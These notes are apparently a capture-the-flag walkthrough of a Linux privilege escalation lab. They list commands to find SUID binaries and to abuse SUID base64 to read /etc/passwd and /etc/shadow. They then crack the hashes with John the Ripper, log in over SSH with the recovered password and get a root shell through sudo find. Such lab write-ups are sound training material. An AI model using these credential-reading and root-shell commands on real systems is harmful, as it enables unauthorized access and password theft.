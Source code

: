 - `sudo -l` to list binaries that can be run as super user by *leonard*
    - No results found
- `find / -type f -perm -04000 -ls 2>/dev/null` to search for files with the SUID bit set
    - `2>/dev/null` pipes error output to null (without root, this command will produce a lot of errors)
    - The first listing of many: `16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64`
    - Cross reference results with [GTFOBins](https://gtfobins.github.io/gtfobins/base64/)

#### Abuse SUID bit to gain a foothold

- The behavior of *base64* with the SUID bit is that converting a file to base64 then back lets you read files that otherwise require elevated permissions
    - What are some sensitive files on linux systems?
        - */etc/passwd* contains user list
        - */etc/shadow* contains password hashes
        - With both the passwd and shadow files from a machine, the password hashes can be cracked
- `base64 /etc/passwd | base64 --decode` to see /etc/passwd
- `base64 /etc/shadow | base64 --decode` to see /etc/shadow
- Can either pipe outputs to files, and serve to attack machine with http server (`python3 -m http.server <port>`) or copy base64 and decode on attack machine
    - If copying base64, remember to `sha256sum` the file before and after to confirm integrity

#### Cracking system passwords

- `unshadow passwd shadow > hash` to pipe crackable hashes to a file called "hash"
- `john hash --wordlist=/usr/share/wordlist/rockyou.txt` to crack the hashes against the rockyou wordlist
    - May need to `sudo gunzip /usr/share/wordlist/rockyou.txt.gz` first
- Unique password combination returned:
    - User: **missy**
    - Pass: **Password1**

#### Lateral Escalation

- `ssh missy@<target ip>` with the newly discovered credentials
- Repeat enumeration process
    - `sudo -l` shows that *missy* can run **find** as sudo with no password
- Cross-reference [GTFOBins](https://gtfobins.github.io/gtfobins/find/) which gives this snippet: `sudo find . -exec /bin/sh \; -quit` as a way to gain root when *find* can be run as sudo

#### Pillage

- Now as root, `find / -name "flag1.txt"` and `find / -name "flag2.txt"` to locate both flags

> <details><summary><code>cat /home/missy/Documents/flag1.txt</code> to get the first flag </summary></details>

### What is the content of the flag2.txt file?

> <details><summary><code>cat /home/rootflag/flag2.txt</code> to get the second flag </summary></details>